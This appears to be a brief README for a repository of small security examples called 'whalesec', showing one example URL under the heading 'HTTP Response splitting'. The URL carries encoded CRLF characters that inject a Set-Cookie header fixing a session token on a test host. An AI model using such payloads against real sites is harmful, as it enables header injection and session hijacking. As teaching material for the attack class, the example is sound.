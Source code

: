 # whalesec
Program with mini security examples 

## HTTP Response splitting


```

http://whaleback.test.local/valaat/whale/2%0d%0aSet-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F

```




